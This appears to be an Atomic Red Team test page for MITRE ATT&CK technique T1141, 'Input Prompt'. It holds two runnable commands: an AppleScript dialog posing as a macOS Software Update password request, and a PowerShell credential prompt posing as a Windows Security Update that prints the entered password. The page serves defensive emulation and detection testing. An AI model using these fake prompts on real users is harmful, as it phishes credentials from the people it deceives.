 # T1141 - Input Prompt

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1141)

<blockquote>When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1088)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number
of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal
suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various
languages such as [AppleScript](https://attack.mitre.org/techniques/T1155)(Citation: LogRhythm Do You Trust Oct 2014)(
Citation: OSX Keydnap malware) and [PowerShell](https://attack.mitre.org/techniques/T1086)(Citation: LogRhythm Do You
Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015).</blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)

<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password

Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS

#### Attack Commands: Run with `sh`!

```sh
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```

<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password

Prompt User for Password (Local Phishing) as seen in Stitch RAT.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```

<br/>
